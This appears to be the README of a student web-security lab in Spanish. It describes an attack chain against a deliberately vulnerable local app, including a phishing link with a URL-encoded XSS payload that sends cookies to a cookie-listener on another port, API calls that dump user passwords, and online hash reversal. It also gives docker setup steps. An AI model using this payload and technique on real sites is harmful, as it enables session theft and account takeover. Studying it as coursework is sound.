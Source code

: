 # TP Seguridad Apps Web - Grupo 3

## Vector de ataque
1) Hacer fuerza bruta con Burp para obtener mails de usuarios
2) Enviar mails con link malicioso: `http://localhost:3000/html/home/user/dashboard/index.html?nombre=Juan%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%22POST%22,%27http://localhost:4000/damecookie%27);xhr.withCredentials%20=%20true;xhr.send()%3C/script%3E`
3) Leer las cookies e intentar entrar al sitio
4) Ver los requests que se hacen
5) Hacer GET /api/v1/User y GET /api/v1/User?distinct=password para obtener un array de usuarios y un array de sus respectivas contraseñas
6) Buscar contraseñas hasheadas en https://hashtoolkit.com/reverse-hash


## Como levantar el ambiente
1) Tener instalado docker (Si no lo tenes podes, en linux podes instalarlo con estos simples comandos)
    `curl -fsSL https://get.docker.com -o get-docker.sh`
    `sh get-docker.sh`
2) Crear la imagen de docker del servidor, se peude hacer estando en /intracorp (de este repositorio) y corriendo
      `docker build . -t tp3-seguridad-web-g3-servidorweb`
3) Crear la red virtual en docker
      `docker network create tp-seguridad-web-g3`
4) Dejar corriendo tanto el servidor como mongod
      `docker container run --rm --network tp-seguridad-web-g3 -p 27017:27017 --name mongo -e MONGO_INITDB_ROOT_USERNAME='admin' -e MONGO_INITDB_ROOT_PASSWORD='admin' mongo`
      `docker container run --rm --network tp-seguridad-web-g3 -p 3000:3000 tp3-seguridad-web-g3-servidorweb`
5) Para dejar corriendo el robador de cookies hay que crear la imagen, estando en /cookie-listener (de este repositorio) y corriendo
      `docker build . -t tp3-seguridad-web-g3-cookie-listener`
      `docker container run --rm --network tp-seguridad-web-g3 -p 4000:4000 tp3-seguridad-web-g3-cookie-listener`
